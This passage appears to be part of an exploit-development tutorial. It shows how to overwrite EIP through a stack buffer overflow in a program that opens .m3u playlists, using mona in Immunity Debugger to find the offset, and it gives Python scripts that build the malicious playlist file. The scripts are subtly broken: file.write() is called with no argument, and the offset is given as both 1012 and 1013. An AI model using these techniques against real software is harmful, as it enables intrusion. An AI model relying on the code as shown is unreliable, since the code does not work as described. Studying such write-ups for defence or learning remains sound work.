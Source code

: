 As anticipated, this is a standard EIP rewrite. As in earlier cases, let's locate the offset utilizing mona.

![img](images/3.png)

Pasting the pattern into the exploit. Remember that the pattern can be found in untruncated form in a text file within the Immunity Debugger directory.

```bash
!mona pattern_create 2500
```

![img](images/4.png)

After updating the exploit, the newly-created playlist gets accessed. Before doing so, a restart of the debugged software is required.

```python
import struct

buffer = "Aa01Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3..."
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

Mona informs us that the correct offset is located at position `1012`. Let's verify it by applying the modified exploit.

![img](images/5.png)

According on the mona output, we locate `BBBB` at position `1013`.vAdditionally, we will pad the remaining bytes with `C` to see if there is available space following the overflow. Previously, `2500` characters were used; let's maintain this buffer length.

```python
import struct

buffer = "A" * 1012
buffer += "BBBB"
buffer += "C" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```
